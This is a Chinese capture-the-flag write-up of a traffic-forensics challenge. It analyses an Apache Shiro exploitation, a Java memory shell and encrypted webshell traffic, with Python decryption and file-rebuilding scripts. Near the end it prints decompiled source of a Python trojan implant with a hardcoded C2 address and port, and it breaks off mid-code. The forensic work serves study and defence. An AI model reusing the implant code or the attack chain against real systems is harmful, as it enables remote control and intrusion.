# 2026年第九届中国高校智能机器人创意大赛 产教融合赛道--软件系统安全赛

## pwn 
mailsystem，wp is located in [Nan0inPsyLog](https://nan0in27.cn)  

## traffic forensics 
traffic-hunt  

### writeup 
初分析进行筛选  


看到进行了大量的favicondemo的post发送，追踪流  


看到Set-Cookie: rememberMe=deleteMe，如果往顶部翻可以看到很多GET的rememberMe请求，典型的打了Apache shiro，在翻到下面的时候看到碰撞成功打出http 200了  
最后在username中可以看到打了一个java内存马  


url解码一下以后提取出.class进行查看  


果不其然，绑定到了/favicon...这个路由上  


根据这里我们知道pwd是对p为头的密文取md5以后的切片，拿到下面作为aes-ecb的key  


 md5("HWmc2TLDoihdlr0N") = 1f2c8075acd3d118674e99f8e61b9596
favicon...的post body的还原方式如下:
1. 提取post data
2. 做一次base64 decode
3. aes-ecb+key进行恢复，然后去掉 PKCS5/PKCS7 padding 
写脚本进行验证  
```python
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
key = b"1f2c8075acd3d118"
payload = "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" 

def decrypt_behinder_traffic(key, b64_payload):
    try:
        encrypted_data = base64.b64decode(b64_payload)
        cipher = AES.new(key, AES.MODE_ECB)
        decrypted_data = unpad(cipher.decrypt(encrypted_data), AES.block_size)
        return decrypted_data
    except Exception as e:
        print(f"解密失败: {e}")
        return None

decrypted_bytes = decrypt_behinder_traffic(key, payload)
if decrypted_bytes:
    if decrypted_bytes.startswith(b'\xca\xfe\xba\xbe'):
        print("success")
        with open("malicious_payload.class", "wb") as f:
            f.write(decrypted_bytes)
        print("已保存class")
```



以此类推，批量提取出class文件后我们可以在每一个还原的class包中都找到一些字符以及一系列执行rce的操作，通过分块进行了发送  


在最后一个文件我们拿到了一串aes key密钥
然后这里卡住了。
注意到在解析出的文件中每一块还有对应的blockIndex和固定的blockSize，并且部分块存在content，回去看反编译，筛选"mode=update"并将content拼接后可以提取出一个文件  
```python 
import base64
import re
import struct
import sys
from pathlib import Path

BASE64_RE = re.compile(r"^[A-Za-z0-9+/=]+$")

def class_utf8_constants(path: Path) -> list[str]: #解析class中的utf-8字符串
    data = path.read_bytes()
    pos = 8
    cp_count = struct.unpack(">H", data[pos:pos + 2])[0]
    pos += 2
    vals = []
    i = 1
    while i < cp_count:
        tag = data[pos]
        pos += 1
        if tag == 1:
            ln = struct.unpack(">H", data[pos:pos + 2])[0]
            pos += 2
            vals.append(data[pos:pos + ln].decode("utf-8", "replace"))
            pos += ln
        elif tag in (3, 4, 9, 10, 11, 12, 17, 18): #跳过无用tag
            pos += 4
        elif tag in (5, 6):
            pos += 8
            i += 1
        elif tag in (7, 8, 16, 19, 20):
            pos += 2
        elif tag == 15:
            pos += 3
        else:
            raise ValueError(f"bad tag {tag} in {path}")
        i += 1
    return vals

def extract_chunk(path: Path): #提取base64和index
    vals = class_utf8_constants(path)
    
    if not {"FileOperation.java", "update", "/var/tmp/out", "30720"}.issubset(set(vals)):
        return None

    chunk_data, block_index = None, None
    for s in vals:
        # 块索引
        if s.isdigit() and s != "30720":
            block_index = int(s)
        # 合法Base64
        elif len(s) >= 64 and len(s) % 4 == 0 and BASE64_RE.fullmatch(s):
            try:
                chunk_data = base64.b64decode(s)
            except Exception:
                pass

    if chunk_data and block_index is not None:
        return block_index, chunk_data
    return None

def main():
    if len(sys.argv) != 3:
        print("python3 rebuild.py <输入目录(有.class文件)> <输出路径>")
        sys.exit(1)

    input_dir = Path(sys.argv[1]).resolve()
    output_path = Path(sys.argv[2]).resolve()

    chunks = []
    for class_path in input_dir.glob("*.class"):
        try:
            info = extract_chunk(class_path)
            if info:
                chunks.append(info)
        except Exception:
            continue
    try:
        max_end = max((idx * 30720) + len(data) for idx, data in chunks)
        buf = bytearray(max_end)

        # 拼接数据块
        for idx, data in chunks:
            start = idx * 30720
            buf[start : start + len(data)] = data

        output_path.parent.mkdir(parents=True, exist_ok=True)
        output_path.write_bytes(buf)
        
        print(f"总块数: {len(chunks)}")
        print(f"输出: {output_path}")
        
    except Exception as e:
        print(f"异常 -> {e}")

if __name__ == "__main__":
    main()
``` 


提取出来是一个elf文件，分析一下有upx，脱壳后ida分析是一个pyinstaller打包的python木马，用pyinstxtractor解包和pycdc反编译看到  


可知木马回连到10.1.243.155:7788并使用aesgcm进行通信信息加密和解密，并由此可推得上面的aes密钥就是对应这里gcm密钥，并接着解析这个c2脚本  
```python 
# Source Generated with Decompyle++
# File: implant.pyc (Python 3.9)

import os
import socket
import struct
import subprocess
import argparse
import settings
import base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
SERVER_LISTEN_IP = '10.1.243.155'
SERVER_LISTEN_PORT = 7788
IMPLANT_CONNECT_IP = '10.1.243.155'
IMPLANT_CONNECT_PORT = 7788
SERVER_LISTEN_NUM = 20
_aesgcm = None

def set_aes_key(key_b64 = None):
    global _aesgcm
    key = base64.b64decode(key_b64)
    if len(key) not in (16, 24, 32):
        raise ValueError('AES 密钥长度必须为 16, 24 或 32 字节（对应 128, 192, 256 位）')
    _aesgcm = AESGCM(key)


def encrypt_data(data = None):
